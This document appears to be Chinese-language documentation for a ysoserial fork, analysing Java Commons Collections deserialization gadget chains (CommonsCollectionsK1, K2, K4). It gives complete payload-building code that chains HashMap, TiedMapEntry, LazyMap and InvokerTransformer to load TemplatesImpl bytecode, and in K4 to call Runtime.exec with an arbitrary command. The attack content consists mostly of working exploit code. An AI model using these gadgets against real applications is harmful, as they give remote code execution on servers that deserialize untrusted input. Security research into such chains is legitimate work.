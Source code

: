 ```yaml
---
sidebar_position: 1
tags: [ysoserial, PPPYSO]
#slug: About Me
#title: About Me
---
```


# CommonsCollectionsK

## 0x01 CommonsCollectionsK1、K2、K4

CC 的 Gadget 分析到现在，其实做的事情简单来说就是对 kick-off、chain、sink 的再组合，不断的操控 compare() 方法，见缝插针去构造我们期望的反射方法，比如 ChainedTransformer 的命令执行可以换成 TemplatesImpl 来加载字节码。

所以这条链的分析换一种表述方式，结合自己的思考方式来讲。

以 CC6 为例，如果我们期望保留这条 gadget 的后半部分，只想将 ChainedTransformer 换为 TemplatesImpl 去加载字节码，那么思路就是：

1. 通过 `Gadgets.createTemplatesImpl(command);` 创建一个 TemplatesImpl
2. 期望任意执行 TemplatesImpl 的某个方法来触发最终的 getTransletInstance()
3. 对第2步提出思考，任意执行方法这几个字是重点，联想到通过 InvokerTransformer 来实现

因为我们是在 CC6 的基础上修改，所以我们甚至可以先写出 gadget 再去验证代码

```
HashMap.readObject()
    TiedMapEntry.hashCode()
        LazyMap.get()
            InvokerTransformer.transform()
                TemplatesImpl.newTransformer()
```

前半段最终执行到 `LazyMap.get()` ，其中的 key 对象是通过 HashMap 传递的一个 TiedMapEntry 对象，将这个 key 对象传入通过 `factory.transform(key);` 来执行。

这里比较复杂，其实一句话来说就是 我们现在可以执行任意 Transformer 的 transform() 方法，并且参数可控

```
HashMap.readObject()
    TiedMapEntry.hashCode()
        LazyMap.get()
```

![image-20230802172903811](attachments/image-20230802172903811.png)

提到任意执行首先想到的就是 InvokerTransformer 这个类，iMethodName 可以反射构造，input 对象可以通过上述传入，所以我们现在的期望就是

```
input 为 templates
iMethodName 为 newTransformer
```

![image-20230802173725706](attachments/image-20230802173725706.png)

所以为了实现前半段的构造，templates 对象需要作为 TiedMapEntry 类的 key 来传递。

![image-20230802174131354](attachments/image-20230802174131354.png)

最终 CommonsCollectionsK1 构造如下：

```java
public Map getObject(String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
    HashMap<String, String> innerMap = new HashMap<>();
    Map m = LazyMap.decorate(innerMap, transformer);
    Map<Object, Object> outerMap = new HashMap<>();
    TiedMapEntry tied = new TiedMapEntry(m, templates);
    outerMap.put(tied, "t");

    innerMap.clear();

    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
    return outerMap;
}
```

CommonsCollectionsK2 同理，只不过是 commons-collections4:4.0 的 LazyMap.lazyMap() 实现

```java
public Map getObject(String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
    HashMap<String, String> innerMap = new HashMap<>();
    LazyMap lazyMap = LazyMap.lazyMap(innerMap, transformer);

    Map<Object, Object> outerMap = new HashMap<>();
    TiedMapEntry tied = new TiedMapEntry(lazyMap, templates);
    outerMap.put(tied, "t");
    innerMap.clear();

    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
    return outerMap;
}
```

CommonsCollectionsK4 和 K2 本质上是同一条链，只不过最后用的 ChainedTransformer 形式，实际上代码冗余。

```java
@Override
    public Map getObject(String command) throws Exception {
        final String[] execArgs = new String[]{command};
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{new ConstantTransformer(1)});
        // real chain for after setup
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{
                        String.class, Class[].class}, new Object[]{
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{
                        Object.class, Object[].class}, new Object[]{
                        null, new Object[0]}),
                new InvokerTransformer("exec",
                        new Class[]{String.class}, execArgs),
                new ConstantTransformer(1)};

//        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        HashMap<String, String> innerMap = new HashMap<>();
        LazyMap lazyMap = LazyMap.lazyMap(innerMap, transformerChain);

        Map<Object, Object> outerMap = new HashMap<>();
        TiedMapEntry tied = new TiedMapEntry(lazyMap, "Whoopsunix");
        outerMap.put(tied, "t");
        innerMap.clear();

//        Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");
        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
        return outerMap;
    }
```
